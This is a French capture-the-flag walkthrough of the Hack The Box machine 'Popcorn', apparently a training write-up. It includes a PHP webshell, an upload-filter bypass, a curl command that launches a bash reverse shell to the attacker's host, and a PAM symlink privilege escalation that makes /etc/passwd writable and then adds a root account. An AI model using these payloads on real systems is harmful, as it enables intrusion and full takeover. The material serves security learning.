# HTB - Popcorn - Linux

Présentation


## Enumération

### Scan Nmap

```text
┌─[root@kali]─[~]
└──╼ #nmap -sC -sT -sV 10.10.10.6
```

| Options | Description |
| :--- | :--- |
| -sC |  |
| -sT |  |
| -sV |  |

```text
┌─[root@kali]─[~]
└──╼ #nmap -sC -sT -sV 10.10.10.6
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-03 18:07 CET
Nmap scan report for 10.10.10.6
Host is up (0.081s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```

| Ports Ouverts | Description |
| :--- | :--- |
| 22 | SSH -  |
| 80 | HTTP |

Si le port 443 était ouvert j'aurais pus le scanner avec la commande :

```text
nmap --script ssl-enum-ciphers -p 443 10.10.10.6
```

| Options | Description |
| :--- | :--- |
| --script ssl-enum-ciphers |  |
| -p 443 |  |

Cela nous aurait donnée des informations sur les versions de **TLS** utilisée par la cible et sur les suite de chiffrement. TLSv1.0 serait noté comme faible, tout comme les suite de chiffrement non sécurisée.

Première chose à faire, on ouvre Firefox et on accède à l'url [http://10.10.10.6/](http://10.10.10.6/) pour voire ce qu'il s'y affiche :

## User Flag

### Website - TCP 80



Il s'agit d'une ancienne page par défaut. Nous n'avons nulle part ailleurs pour rechercher du contenu. Nous allons donc faire une analyse des répertoire pour énumérer  les fichier et dossiers cachés sur la cible. Pour cela nous allons utilisé `dirb` **:**

```text
┌─[root@kali]─[~]
└──╼ #dirb http://10.10.10.6/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Jan  3 18:50:27 2021
URL_BASE: http://10.10.10.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.6/ ----
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)
+ http://10.10.10.6/index (CODE:200|SIZE:177)
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)
+ http://10.10.10.6/test (CODE:200|SIZE:47330)
==> DIRECTORY: http://10.10.10.6/torrent/

---- Entering directory: http://10.10.10.6/torrent/ ----
==> DIRECTORY: http://10.10.10.6/torrent/admin/
+ http://10.10.10.6/torrent/browse (CODE:200|SIZE:9278)
+ http://10.10.10.6/torrent/comment (CODE:200|SIZE:936)
+ http://10.10.10.6/torrent/config (CODE:200|SIZE:0)
==> DIRECTORY: http://10.10.10.6/torrent/css/
==> DIRECTORY: http://10.10.10.6/torrent/database/
+ http://10.10.10.6/torrent/download (CODE:200|SIZE:0)
+ http://10.10.10.6/torrent/edit (CODE:200|SIZE:0)
==> DIRECTORY: http://10.10.10.6/torrent/health/
+ http://10.10.10.6/torrent/hide (CODE:200|SIZE:3765)
==> DIRECTORY: http://10.10.10.6/torrent/images/
+ http://10.10.10.6/torrent/index (CODE:200|SIZE:11356)
+ http://10.10.10.6/torrent/index.php (CODE:200|SIZE:11356)
==> DIRECTORY: http://10.10.10.6/torrent/js/
==> DIRECTORY: http://10.10.10.6/torrent/lib/
+ http://10.10.10.6/torrent/login (CODE:200|SIZE:8371)
+ http://10.10.10.6/torrent/logout (CODE:200|SIZE:182)
+ http://10.10.10.6/torrent/preview (CODE:200|SIZE:28104)
```

**Le dossier torrent semble contenir un portail pour le partage de torrent :**



On parcours le site pour voir ce qu'il peut s'y trouver. On recherche le plus souvent des fonctionnalité d'upload ou des champs de saisie comme des formulaire  
Il existe une page d'upload, mais elle redirige simplement vers le formulaire de connexion. Il existe une page Parcourir, et elle affiche actuellement un torrent:


Je me suis donc ensuite crée un compte : 



Je me suis donc logger avec mes identifiants et je peux accéder au formulaire d'upload.



On peut dans un premier temps uploader un **webshell PHP** mis il y a un erreur :

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```



On peut tester d'upload un fichier torrent \(vous pouvez en récupérer un [ici](https://ubuntu.com/download/alternative-downloads)\) pour voir ce qui se produit. Une fois upload il nous renvoi sur la page du torrent. On peut cliquer sur "**Edit this torrent**" et un pop-up apparait avec un formulaire :



On peut voir qu'on peut upload une image. Une fois qu'on upload une image on obtient les informations suivante : 



En regardant la page torrent, je vois maintenant l'image téléchargée. En regardant le HTML, l'image est référencée par l'URL suivante:

```bash
http://10.10.10.6/torrent/thumbnail.php?gd=2&src=./upload/8b851cd45092b458da23ba0ed834906d79f4e2d7.jpg&maxw=96
```

Je pensais que cela pouvait être un **LFI**, mais il inclut le fichier référencé en tant qu'image, donc même si je peux passer en dehors du répertoire actuel, cela n'aide pas vraiment.  
Étant donné que le **`src`** ressemble à un chemin, j'ai vérifié [http://10.10.10.6/torrent/upload/](http://10.10.10.6/torrent/upload/), et il a renvoyé une liste de répertoires comprenant mon image téléchargée:



### Shell en tant que www-data

#### Test du filtre

Il y a deux possibilités de télécharger des fichiers ici, le torrent et l'image. J'ai commencé avec l'image, si je soumets un simple webshell php, il renvoie «Fichier invalide». Il y a un filtrage que je devrai contourner

Je vais trouver le téléchargement autorisé d'un PNG dans **Burp** et l'envoyer à **Repeater**. Un site Web vérifie les types de fichiers valides de trois manières courantes en les comparant à une liste d'autorisation ou de refus:

* Extension de fichier
* En-tête `Content-Type`
* [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)

Je vais commencer par en changer un à la fois pour voir si le site se bloque. Tout d'abord, je vais changer l'extension en `.php`. Cela ne semble pas déranger:



C'est un problème de sécurité car un serveur ne devrait jamais permettre à un utilisateur d'upload quoi que ce soit qui puisse être nommé `.php`, car alors le serveur est susceptible de l'exécuter en tant que code PHP.

Si je change l'en-tête `Content-Type` en `application/x-php`, il le bloque \(même avec le nom du fichier changé en .png:



Changer le contenu ne semble pas avoir d'importance:



#### Upload

Sur la base des tests de filtre, il semble que je puisse nommer un fichier `.php` et inclure du code PHP, tant que je change le `Content-Type` en une image valide.



Je vais l'envoyer depuis **Repeater** \(ou je pourrais télécharger à nouveau le shell via le formulaire et utiliser Proxy pour intercepter la demande et la modifier\).

Quand je vérifie `/torrent/upload`, il y a un fichier PHP \(semble être nommé avec un hachage SHA1 de quelque chose\):



On envoie depuis notre machine une réquetes pour interogé le script PHP :

```bash
┌─[root@kali]─[~]
└──╼ #curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Shell

Pour obtenir un shell, je vais démarrer `nc` et passer `cmd` en tant que shell inversé:

```bash
┌─[root@kali]─[~]
└──╼ #curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'"
```

Dans un autre shell on met `nc` en mode écoute : 

```bash
root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:33054.
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Pour avoir un shell de meilleur qualité tapez les commandes suivante :

```bash
www-data@popcorn:/var/www/torrent/upload$ python -c 'import pty;pty.spawn("bash")'
www-data@popcorn:/var/www/torrent/upload$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo
root@kali# fg
                                                       reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@popcorn:/var/www/torrent/upload$
```

On peut récupérer le **user flag** dans le dossier de l'utilisateur george, `/home/george`

```bash
www-data@popcorn:/home/george$ cat user.txt 
5e3*****************************
```

## Escalade de privilège

### Énumération :

En regardant autour du seul répertoire personnel, `/home/george`, je remarquerai le fichier `.cache/motd.legal-displayed`:

```bash
www-data@popcorn:/home/george$ find . -type f -ls
    76    4 -rw-r--r--   1 george   george        220 Mar 17  2017 ./.bash_logout
    82    4 -rw-r--r--   1 george   george       3180 Mar 17  2017 ./.bashrc
 42885  832 -rw-r--r--   1 george   george     848727 Mar 17  2017 ./torrenthoster.zip
 42883    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.cache/motd.legal-displayed
 42884    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.sudo_as_admin_successful
  2210    4 -rw-r--r--   1 george   george         33 Mar 17  2017 ./user.txt
 43648    4 -rw-------   1 root     root           19 May  5  2017 ./.nano_history
 44232    4 -rw-------   1 root     root         1571 Mar 17  2017 ./.mysql_history
   499    4 -rw-------   1 root     root         2769 May  5  2017 ./.bash_history
   107    4 -rw-r--r--   1 george   george        675 Mar 17  2017 ./.profile
```

`motd.legal-displayed`. Il est actuellement vide, mais cela a retenu mon intérêt car ces types de fichiers peuvent conduire à l'exécution de code car ils sont généralement exécutés au démarrage d'une nouvelle session. La recherche sur Google de «**motd.legal-shown privesc**» a renvoyé un exploit [Exploit-DB](https://www.exploit-db.com/exploits/14339).

### Exploit

#### Background

Le script ci-dessus est en fait très bien fait et assez astucieux. Je vais le montrer à la fin. Mais je voulais comprendre la vulnérabilité. Il n'y a pas une tonne d'explications détaillées sur le Web, mais à la lecture du script d'exploitation, la vulnérabilité réside dans la façon dont les autorisations du répertoire `~/.cache` sont définies lorsqu'un utilisateur se connecte \(invoque le module **PAM**\). Mon shell inversé n’a pas déclenché cela, car il ne s’agit pas d’une connexion. Mais je peux utiliser **SSH** pour me connecter en écrivant une clé. Ensuite, les exploits est de supprimer le répertoire `~/.cache` et de le remplacer par un lien symbolique vers un fichier. Ensuite, lors de la connexion, ce fichier appartiendra à mon utilisateur.

#### SSH en tant que ww-data

Je ne peux pas supprimer le répertoire `~/.cache` dans le répertoire personnel de george car le fichier  `motd.legal-displayed` appartient à george et n’est pas accessible en écriture:

```bash
www-data@popcorn:/home/george$ rm -rf .cache/
rm: cannot remove `.cache/motd.legal-displayed': Permission denied
www-data@popcorn:/home/george$ ls -l .cache/motd.legal-displayed 
-rw-r--r-- 1 george george 0 Mar 17  2017 .cache/motd.legal-displayed
```

Je peux le faire dans le répertoire `www-data`. J'ai juste besoin d'un moyen de me connecter. Je vais créer un répertoire `.ssh` dans le répertoire de base de www-data et générer une paire de clés RSA:

```bash
www-data@popcorn:/home/george$ cd ~
www-data@popcorn:/var/www$ mkdir .ssh
www-data@popcorn:/var/www$ ssh-keygen -q -t rsa -N '' -C 'pam'
Enter file in which to save the key (/var/www/.ssh/id_rsa): 
www-data@popcorn:/var/www$ ls .ssh/
id_rsa  id_rsa.pub
```

Je vais copier la clé publique dans `authorized_keys` et définir les autorisations:

```bash
www-data@popcorn:/var/www$ cp .ssh/id_rsa.pub .ssh/authorized_keys
www-data@popcorn:/var/www$ chmod 600 .ssh/authorized_keys 
```

Il n’y a plus de `.cache` dans `/var/www`:

```bash
www-data@popcorn:/var/www$ ls -la                                                    
total 28                                                                             
drwxr-xr-x  4 www-data www-data 4096 Jun 21 21:39 .               
drwxr-xr-x 15 root     root     4096 Mar 17  2017 ..                                 
-rw-------  1 www-data www-data   44 Jun 21 21:39 .bash_history                      
-rw-r--r--  1 www-data www-data  177 Mar 17  2017 index.html    
drwxr-xr-x  2 www-data www-data 4096 Mar 17  2017 rename  
-rw-r--r--  1 www-data www-data   21 Mar 17  2017 test.php 
drwxr-xr-x 15 www-data www-data 4096 Mar 17  2017 torrent
```

Si je récupère une copie de la clé privée sur ma machine, puis je me connecte en `ssh` à à la cible en tant que `www-data`, non seulement j'obtiens un shell:

```bash
root@kali# ssh -i /tmp/key www-data@10.10.10.6
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/

  System information as of Sun Jun 21 21:49:51 EEST 2020

  System load: 0.0               Memory usage: 5%   Processes:       111
  Usage of /:  6.2% of 14.80GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at https://landscape.canonical.com/


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$
```

Mais le répertoire `.cache` apparaît avec un `motd.legal-displayed`:

```bash
www-data@popcorn:~$ find .cache/ -type f -ls
  4082    0 -rw-r--r--   1 www-data www-data        0 Jun 21 21:49 .cache/motd.legal-displayed
```

#### Get Write on passwd

Je vais nettoyer le répertoire `~/.cache` et le remplacer par un lien vers `/etc/sudoers`:

```bash
www-data@popcorn:~$ rm -rf .cache/
www-data@popcorn:/var/www$ ln -s /etc/passwd .cache
www-data@popcorn:/var/www$ ls -la .cache 
lrwxrwxrwx 1 www-data www-data 11 Jun 21 22:04 .cache -> /etc/passwd
```

Je vais maintenant me reconnecter avec `ssh`, puis `/etc/passwd` appartient à `www-data`:

```bash
www-data@popcorn:/var/www$ ls -l /etc/passwd
-rw-r--r-- 1 www-data www-data 1031 Mar 17  2017 /etc/passwd
```

#### Add Root Users

Avec un accès en écriture, je vais simplement ajouter un utilisateur root. Tout d'abord, j'ai besoin d'un hachage de mot de passe:

```bash
www-data@popcorn:/var/www$ openssl passwd -1 0xdf
$1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1
```

Je vais maintenant ajouter un utilisateur à `/etc/passwd`:

```bash
www-data@popcorn:/var/www$ echo 'oxdf:$1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1:0:0:pwned:/root:/bin/bash' >> /etc/passwd  
```

L'utilisateur est `oxdf`, le mot de passe est le **hachage de 0xdf**, les identifiants d'utilisateur et de groupe sont 0 pour **root**, la description est **pwned**, le répertoire personnel est `/root` et le shell est `/bin/bash`.

#### Shell

Maintenant, je peux simplement `su` sur oxdf pour obtenir un shell root:

```bash
www-data@popcorn:/var/www$ su - oxdf
Password: 
root@popcorn:~# id
uid=0(root) gid=0(root) groups=0(root)
```

On obtient donc le flag root.

```bash
root@popcorn:~# cat root.txt
f1223310************************
```

### Script

#### Analysis

Le script [Exploid-DB](https://www.exploit-db.com/exploits/14339) définit un ensemble de fonctions, effectue des vérifications de base, puis exécute ceci

```bash
KEY="$(mktemp -u)"
key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
own /etc/passwd && echo "$P" >> /etc/passwd
own /etc/shadow && echo "$S" >> /etc/shadow
restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
key_remove
echo "[+] Success! Use password toor to get root"
su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
  chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor
```

`key_create` crée une clé **SSH** et l’installe dans le répertoire personnel de l’utilisateur actuel, en prenant soin de sauvegarder tout ce qui existe déjà.  
`backup ~/.cache` fera exactement cela - créer une copie de sauvegarde du répertoire.  
